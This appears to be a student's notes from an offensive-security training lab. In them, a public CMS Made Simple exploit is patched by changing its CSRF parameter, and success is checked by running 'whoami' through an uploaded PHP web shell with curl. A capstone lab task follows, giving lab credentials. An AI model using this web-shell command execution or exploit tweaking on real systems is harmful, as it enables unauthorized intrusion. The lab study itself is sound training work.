 Result of print statement:

```
[+] String that is being split:
https://10.11.0.128/admin?_sk_=f2946ad9afceb247864
```

There is no `__c` which is defined in the _csrf_param_ variable.

We received `_sk_` from web app.

Changing the csrf_param variable

```
csrf_param = "_sk_"
```

Exploit succeeded.

Verifying if our exploit was successful by trying to execute whoami using the uploaded php shell

`curl -k https://192.168.50.45/uploads/shell.php?cmd=whoami`

Result:
`www-data`

##### LABS:

2. **Capstone Lab**: To put in practice what we learned so far, here is the full vulnerable CMS Made Simple. You recovered the credentials for the admin on this service who is the user _offsec_ with the password _lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ_. Use this information to exploit the service on VM 1 that is running on **http://[IP_ADDRESS]/cmsms** and read **/home/flag.txt** to solve this challenge.

IP: `192.168.134.46`

Error

![[Pasted image 20250126154750.png]]
